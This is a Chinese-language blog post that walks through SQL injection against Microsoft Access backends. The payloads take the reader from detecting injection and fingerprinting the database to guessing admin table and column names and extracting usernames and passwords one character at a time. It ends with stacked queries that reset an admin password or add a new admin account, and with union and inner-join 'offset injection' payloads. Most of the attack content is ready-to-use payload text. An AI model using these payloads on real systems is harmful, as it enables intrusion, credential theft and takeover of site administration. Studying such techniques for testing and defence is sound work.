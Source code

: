 ```yaml
---
layout: post
title:  "access注入总结"
date:   2018-11-20 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


## 0x00 access数据库

> Microsoft Office Access是由微软发布的关系数据库管理系统。它结合了 MicrosoftJet Database Engine 和 图形用户界面两项特点，是 Microsoft Office 的系统程序之一。

### 1、结构

表名---->列名---->内容数据 

它不像其他的数据库一样，里面创建多个数据库然后才是表再是内容

**而access的话只有一个库若干张表。**

## 0x01 注入基本流程

1. 判断有无注入，判断数据库类型
2. 猜解表名
3. 猜解字段
4. 猜解管理员id
5. 猜解用户名和密码长度
6. 猜解用户名的数据内容

### 1、判断有无注入和判断数据库类型

**判断有无注入：**

```php+html
一、数字型
1、 '
2、 and 1 = 1
3、 and 1 = 2
4、 or 1 = 1
二、字符型
1、' and '1'='1
2、' and '1'='2
三、搜索型
1、%'and 1=1 and '%' ='%
2、%'and 1=2 and '%' ='%
```

**判断数据库类型：**

```html
and exists(select * from msysobjects) > 0 //判断access
and exists(select * from sysobjects)>0 //判断sqlserver
```

### 2、猜解表名

一般都是`user 、password、pass、 adminuser、administrator`等表名

1. 常用的表名：`admin user news manage a_admin x_admin m_admin adminuser admin_user article_admin administrator manager member memberlist users                                          Manage_User user_info admin_userinfo login new用户会员` 

```
方法一：
and 0 <> (select count(*) from *)  // <>不等于
方法二：
and exists(select * from admin) > 0  //测试是否存在admin表
and exists(select count(*) from admin) // admin中的列数
```

### 3、猜解字段名

常用的列名：`username password id adminusername admin_username adminname admin_name admin adminuser admin_user user_name user_admin  administrator administrators adminpassword admin_pwd adminpass userpass user_pass  admin_passwod`

```
and exists(select id from admin) 判断是否存在id这个列	
and exists(select username from admin) 判断是否存在username
and 1=(select count(*) from admin where len(username)>0)
and 1=(select count(*) from admin where len(password)>0)
```

### 4、猜解管理员id

```
and exists(select id from admin where id=1) //判断是否存在
...
```

### 5、猜解账户名和密码

```
and (select top 1 len(admin) from admin)=5 //如果返回正常，那么管理员的账号的长度为5
and (select top 1 len(password) from admin)=5 //猜解管理员的密码是否为5
and exists (select id from admin where len (admin) =5 and id=39) //id为管理员id 
```

### 6、猜解用户名数据内容

​     通过ASCII码来判断：

```
方法一：
//第一个数据
and (select top 1 asc(mid(admin,1,1)) from admin) > 100
//第二个数据
and (select top 1 asc(mid(admin,2,1)) from admin) >100
以此类推
...
方法二：
//第一位数据
and 1=(select count(*) from admin where left(username,1)='a')
//第二位数据
and 1=(select count(*) from admin where left(username,2)='ab)
...
```

### 7、更改或添加管理员

```
更改密码：
; update admin set password ='hhhh' where username=admin
添加管理员：
; insert into admin (username,password) values (twoday,hhhh)--
```

## 0x02 偏移注入

**主要原理：** ` *`所表示的字段的顺序被打乱，通过使用inner join查询，从而有可能爆出用户和密码的字段数据。

主要解决表名猜到，列名猜不到的情况。

```
order by n  直到返回不正常，那么列数就是n-1
```

使用 `union` 查询：

```
union select 1,...（n-1） from admin
```

用 `*` 号来从最后一个字段数n-1向前逐个删除来代替，`*` 代表了admin的所有字段。

```
union select 1,2,3,4,5,6,7,8,9,10,11,12,13,..20 from admin
union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin  //没有报错，说明 * 字段是4
```

首先用两张表来进行查询，应该减去重复的部分也就是这四个字段，不能让这四个字段算两次，这样的话20-4-4=12，语句中只需要罗列出12个数字。
由于：

``` 
20-16 = 4
12+4*2 = 20
8 +4*3 = 20
```

那么可以使用`inner join`查询，`inner join`，我的理解是将一张表虚拟成两张表，所以数据不能重复，需要减去重复的数据，即20-4-4=12，在12后面添加想要查询的数据

```
union select 1,2,3,4,5,6,7,8,9,10,11,12,a.id,b.id,* from (admin as a inner join admin as b on?a.id = b.id)
```

上面的这两种情况还是报错，那么我们继续再来添加一张表，再减去重复的四个字段，20-4-4-4=8，语句中只需要罗列出8个数字。
再次虚拟成三张表，即 20-4-4-4=8 使用inner join查询：

```
union select 1,2,3,4,5,6,7,8,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id=b.id) inner join admin as c on a.id=c.id)
```

**第二种方法：**

1. 后台源码的登录表单的参数值
2. 看网站地址链接上的规则
3. 判断对方的cms